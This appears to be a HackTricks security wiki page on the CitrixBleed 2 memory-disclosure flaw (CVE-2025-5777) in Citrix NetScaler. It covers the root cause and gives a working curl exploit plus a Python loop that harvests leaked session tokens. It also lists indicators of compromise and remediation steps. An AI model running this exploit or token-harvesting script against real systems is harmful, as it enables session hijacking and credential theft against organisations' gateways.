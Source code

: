 # Information Disclosure

{{#include ../banners/hacktricks-training.md}}

## HTTP Request Buffer Reuse Memory Disclosure

Some HTTP handlers may not properly clear or initialize form-value buffers before reuse. By supplying only the minimal required fields to such an endpoint, an attacker can cause the application to reference residual memory from previous requests and leak its contents in the HTTP response.

### Example: CitrixBleed 2 (CVE-2025-5777)

Affected Systems:
- Citrix NetScaler ADC/Gateway 14.1 prior to 14.1-43.56
- Citrix NetScaler ADC/Gateway 13.1 prior to 13.1-58.32
- Citrix NetScaler ADC 13.1-FIPS prior to 13.1-37.235-FIPS
- Citrix NetScaler ADC 12.1-FIPS prior to 12.1-55.328-FIPS

#### Vulnerability Root Cause
The `/p/u/doAuthentication.do` handler only validates the presence of the `login` form key and does not verify that its value buffer is initialized. Internally, the pointer to the `login` value may reference leftover data in adjacent heap or stack memory, which is later copied into the response and truncated to 127 bytes before null-termination, resulting in an arbitrary 127-byte memory disclosure per request.

## Exploitation

1. Craft a minimal HTTP POST to the vulnerable endpoint:

   ```bash
   curl -sk -X POST \
     'https://target/p/u/doAuthentication.do' \
     -d 'login=admin'
   ```

2. The response body will include up to 127 bytes of adjacent memory from the application buffer.

### Automated Exfiltration

Use a simple polling script to extract sessions tokens or credentials in real time:

```python
import re, requests

pattern = re.compile(r'[A-Za-z0-9]{24}')
url = 'https://target/p/u/doAuthentication.do'

while True:
    resp = requests.post(url, data={'login':'a'}, verify=False)
    m = pattern.search(resp.text)
    if m:
        print('Leaked Token:', m.group())
```  

## Impact

- Unauthenticated memory disclosure up to 127 bytes per request.
- Leak of sensitive data (e.g., `nsroot` session tokens, plaintext credentials).
- Leads to session hijacking, credential theft, and potential administrative takeover.

## Indicators of Compromise

- Non-printable or unexpected characters in HTTP responses for `/p/u/doAuthentication.do` (if debug logging is enabled).
- Multiple active sessions for a single user from different client IPs:
  ```bash
  show sessions
  ```
- Unexpected session tokens reflected in HTTP responses.

## Remediation and Mitigation

- Upgrade NetScaler ADC/Gateway to versions ≥ 14.1-43.56, 13.1-58.32 and corresponding FIPS builds.
- Terminate existing ICA/PCoIP sessions immediately.
- Audit and compare running configurations:
  ```bash
  show ns runningConfig -withDefaults
  diff -u backup.config current.config
  ```
- Monitor for new administrative accounts or modifications to logging settings.

## References

- Horizon3 Lab. "CVE-2025-5777: CitrixBleed 2 Write-Up… Maybe?" https://horizon3.ai/attack-research/attack-blogs/cve-2025-5777-citrixbleed-2-write-up-maybe/
- Citrix. CTX693420 Advisory: https://support.citrix.com/support-home/kbsearch/article?articleNumber=CTX693420
- Citrix. CTX694788 Advisory: https://support.citrix.com/support-home/kbsearch/article?articleNumber=CTX694788

{{#include /banners/hacktricks-training.md}}
